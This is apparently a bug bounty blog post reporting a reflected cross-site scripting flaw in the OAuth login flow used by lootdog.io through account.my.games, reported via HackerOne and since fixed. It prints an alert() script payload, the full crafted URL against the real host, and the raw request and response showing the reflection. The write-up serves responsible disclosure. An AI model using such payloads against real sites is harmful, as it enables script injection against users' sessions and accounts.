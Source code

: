 ```yaml
---
title: "Discovery of Reflected Cross-Site Scripting (XSS) Vulnerability in a Public Program"
date: 2021-02-08 12:00
description: Reflected Cross-site Scripting.
---
```


## Target

The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.

## Technical Analysis

The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.

An additional parameter was added to the end of the request's keyed value as follows:

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The resulting URL was crafted as follows:

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

Subsequently, the request containing the payload was sent and the response was observed.

## Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

## Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK 
Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

![img](/assets/images/blogs/XSS_lootdog/1.webp)

The payload can be seen successfully reflected in the HTTP response.

![img](/assets/images/blogs/XSS_lootdog/2.webp)

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.

Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).